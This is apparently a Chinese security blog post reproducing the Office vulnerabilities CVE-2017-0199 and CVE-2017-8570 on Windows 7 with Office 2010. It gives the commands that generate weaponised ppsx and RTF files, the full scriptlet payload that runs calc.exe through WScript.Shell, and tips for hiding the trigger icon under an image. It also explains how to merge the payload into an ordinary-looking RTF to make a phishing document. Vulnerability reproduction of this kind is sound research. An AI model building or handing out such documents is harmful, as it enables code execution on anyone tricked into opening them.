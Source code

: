 ```yaml
---
title: "Office CVE-2017-8570 复现"
date: 2019-08-01T00:00:00+08:00
draft: false
tags: ['office']
categories: ['漏洞复现']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


漏洞原理移步 [SeeBug](https://paper.seebug.org/520).

环境 Windows 7, Office 2010.

<!--more-->

## 说在前面

[FreeBuf](https://www.freebuf.com/news/143685.html)

CVE-2017-0199 的另一种利用方式, 通过 sct 文件执行命令, 弥补了之前系统默认禁用 hta 执行 ActiveX 的缺陷, 不过这种方式只能通过 ppsx 文件利用.

生成文档.

```
cve-2017-0199_toolkit.py -M gen -t ppsx -w test.ppsx -u http://192.168.1.1/calc.sct
```

sct 内容.

```
<?XML version="1.0"?>
<scriptlet>
<registration
    description="fjzmpcjvqp"
    progid="fjzmpcjvqp"
    version="1.00"
    classid="{204774CF-D251-4F02-855B-2BE70585184B}"
    remotable="true"
>
</registration>
<script language="JScript">
<![CDATA[
		var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
]]>
</script>
</scriptlet>
```

当然, 文件也能够更改为 .ppt 后缀, 但就要等到播放幻灯片的时候才能够执行 Payload.

ppt 后缀的缺点是会有一个图标, 如果直接双击它也是会执行 Payload 的.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190801144721.png)

可使用图片覆盖.

## 复现过程

[rxwx/CVE-2017-8570](https://github.com/rxwx/CVE-2017-8570)

复现时不需要搭建服务器, 直接合成 sct 就行, 这就是它和 CVE-2017-0199 最大的不同 :)

注意该漏洞只能通过 rtf 文件执行 (无法更改为 .doc 后缀).

生成文档 (sct 上文已提供).

```
packager_composite_moniker.py -s calc.sct -o test.rtf
```

打开文档.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190801145550.png)

在我这里它执行了两次.

但点击 "是" 之后 Word 会崩溃.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190801145710.png)

实际测试中发现在 Office 2010 更改文档内容后程序会停止运行, 而在高版本 Office 中更改后无法执行 Payload.

那么如何自定义我们的文档呢?

## 改进载荷

其实 rtf 这种格式不像一般的 doc docx 文档, 它是完全可读的, 也就是说, 我们可以通过手动编辑的方式将多个 rtf 文档合并到一起, 最后将合并后的 rtf 文档作为 Payload 去执行.

不过多个 rtf 的合并是按行而不是按页进行的, 所以在编辑钓鱼文档的时候可能就要多写一些内容.

新建文档 `helloworld.rtf`, 在里面任意编辑内容并保存.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190801152047.png)

使用编辑器打开之前生成的 rtf 文档, 复制其中的文本.

再使用编辑器打开 `helloworld.rtf`, 将其复制到末尾的如下位置并保存.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190801152651.png)

打开文档.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190801152902.png)

成功执行 (警告框未截图).